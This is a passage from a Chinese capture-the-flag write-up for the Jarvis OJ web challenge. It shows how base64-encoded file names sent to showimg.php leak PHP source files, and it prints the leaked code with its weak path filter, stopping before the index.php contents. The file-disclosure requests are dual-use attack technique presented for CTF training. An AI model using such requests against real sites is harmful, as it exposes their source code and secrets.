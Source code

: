 看页面请求中有如下请求，很明显，img参数是base64加密了，解密后的内容为：`shield.jpg`
`http://web.jarvisoj.com:32768/showimg.php?img=c2hpZWxkLmpwZw==`

所以想着是否可以通过`http://web.jarvisoj.com:32768/showimg.php?img=shield.php`，看是否包含这个文件，当然这里需要对 shield.php 进行加密，加密后的内容为：`c2hpZWxkLnBocA==` 访问 `http://web.jarvisoj.com:32768/showimg.php?img=c2hpZWxkLnBocAo=` 得到如下代码：

```
<?php
	//flag is in pctf.php
	class Shield {
		public $file;
		function __construct($filename = '') {
			$this -> file = $filename;
		}
		
		function readfile() {
			if (!empty($this->file) && stripos($this->file,'..')===FALSE  
			&& stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
				return @file_get_contents($this->file);
			}
		}
	}
?>

```

从这里我们知道了flag在pctf.php, 那么执行通过读这个文件内容呢？随即访问了：`http://web.jarvisoj.com:32768/showimg.php?img=cGN0Zi5waHA=`
页面提示`File not found` 果然没有想的那么简单。

那么如果直接访问`http://web.jarvisoj.com:32768/pctf.php`,结果页面提示：
`FLAG: PCTF{I_4m_not_fl4g}`

这个时候想既然已经可以看代码文件内容了那就把showimg.php的代码内容也看一下，随即访问：`http://web.jarvisoj.com:32768/showimg.php?img=c2hvd2ltZy5waHA=` 得到了内容如下：

```
<?php
	$f = $_GET['img'];
	if (!empty($f)) {
		$f = base64_decode($f);
		if (stripos($f,'..')===FALSE && stripos($f,'/')===FALSE && stripos($f,'\\')===FALSE
		&& stripos($f,'pctf')===FALSE) {
			readfile($f);
		} else {
			echo "File not found!";
		}
	}
?>
```

这里和猜想的差不多就是根据img参数去读文件，不过目前我知道的有用信息是答案就在pctf.php, 这个时候看看页面下是否有index.php 文件，看看内容是什么，访问：`http://web.jarvisoj.com:32768/showimg.php?img=aW5kZXgucGhw`,看到了如下内容
